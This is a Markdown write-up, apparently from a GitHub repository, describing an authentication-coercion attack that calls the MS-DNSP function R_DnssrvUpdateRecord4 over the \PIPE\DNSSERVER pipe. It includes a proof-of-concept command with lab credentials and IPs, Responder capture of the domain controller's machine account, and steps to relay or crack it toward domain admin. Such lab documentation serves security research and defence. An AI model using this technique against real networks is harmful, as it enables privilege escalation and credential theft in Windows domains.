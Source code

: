 # MS-DNSP - Remote call to R_DnssrvUpdateRecord4 (opnum 17)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvUpdateRecord4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/3a6696b1-13ad-46b4-8f87-43e65ddb56e5)

+ **Function operation number**: `17`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvUpdateRecord4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/3a6696b1-13ad-46b4-8f87-43e65ddb56e5) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvUpdateRecord4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvUpdateRecord4(
      [in]                    handle_t             hBindingHandle,
      [in]                    DWORD                dwClientVersion,
      [in]                    DWORD                dwSettingFlags,
      [in, unique, string]    LPCWSTR              pwszServerName,
      [in, unique, string]    LPCWSTR              pwszVirtualizationInstanceID,
      [in, unique, string]    LPCSTR               pszZone,
      [in, unique, string]    LPCWSTR              pwszZoneScope,
      [in, string]            LPCSTR               pszNodeName,
      [in, unique]            PDNS_RPC_RECORD      pAddRecord,
      [in, unique]            PDNS_RPC_RECORD      pDeleteRecord
    );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvUpdateRecord4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/3a6696b1-13ad-46b4-8f87-43e65ddb56e5